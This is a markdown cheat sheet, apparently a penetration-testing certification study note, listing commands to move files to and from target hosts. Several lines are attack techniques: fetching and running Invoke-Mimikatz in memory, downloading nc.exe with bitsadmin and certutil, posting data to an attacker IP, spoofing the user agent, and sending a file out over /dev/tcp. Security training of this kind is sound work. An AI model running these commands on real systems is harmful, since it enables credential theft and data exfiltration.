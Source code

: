 ```yaml
---
layout: post
title: "File Transfers"
date: 2025-04-15
categories: CheatSheets/CPTS
order: 3
---
```


| **Command** | **Description** |
| --------------|-------------------|
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`  | Execute a file in memory using PowerShell |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe` | Download a file using Certutil |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |
| `nc -lvnp 8888 > file.db`<br>`cat file.db > /dev/tcp/10.10.10.10/8888` | Transfer a file using Netcat and bash TCP socket |
| `python -m http.server 1234`              | Python 3 built‑in static file server on port 1234       |
| `python -m SimpleHTTPServer 8000`         | Python 2 built‑in static file server on port 8000       |
| `php -S 0.0.0.0:1234`                     | PHP built‑in web server on port 1234                    |
| `ruby -run -e httpd . -p 1234`            | Ruby one‑liner HTTP server on port 1234                 |
| `npx http-server . -p 1234`               | Node.js “http-server” (via npx) on port 1234            |
| `busybox httpd -f -p 1234`                | BusyBox embedded HTTP server on port 1234               |
| `nc -l 1234 < index.html`                 | Simple one‑file serve via netcat on port 1234           |